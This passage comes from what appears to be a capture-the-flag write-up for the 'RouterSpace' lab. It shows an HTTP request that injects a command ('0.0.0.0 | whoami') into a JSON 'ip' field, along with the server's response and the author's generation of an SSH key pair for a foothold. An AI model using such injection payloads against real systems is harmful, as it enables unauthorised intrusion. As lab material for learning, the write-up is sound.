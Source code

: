 {{<figure src="/images/routerspace/Command_Injection.png" title="Vulnerable to Command Injection">}}

#### Request

```text
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 25
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate


{"ip":"0.0.0.0 | whoami"}
```

#### Response

```
HTTP/1.1 200 OK
X-Powered-By: RouterSpace
X-Cdn: RouterSpace-7530
Content-Type: application/json; charset=utf-8
Content-Length: 8
ETag: W/"8-qTM+b2Uq+FmQphCm7m1RM+pENkU"
Date: Sun, 06 Mar 2022 13:33:23 GMT
Connection: close

"paul\n"
```




## Foothold

* No request for reverse shell worked
* But /home/paul/.ssh had write privileges
* Created an ssh key pair 


```bash
┌─[babayaga@babayaga-virtualbox]─[~/.ssh]
└──╼ $ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/babayaga/.ssh/id_rsa): tmp
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in forRouterSpace
Your public key has been saved in forRouterSpace.pub
The key fingerprint is:
SHA256:22ZtDCb89y6FRut4jEgFTkumJ1owa7TZJXcri3o1AvM babayaga@babayaga-virtualbox
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|    + . B .      |
|   . B X + .     |
|    B =.= o .    |
|   . * +S+o. o   |
|    . E =* ++ .  |
|     . +.o=*=.   |
|    . . .ooo=.   |
|     .     . oo  |
+----[SHA256]-----+
```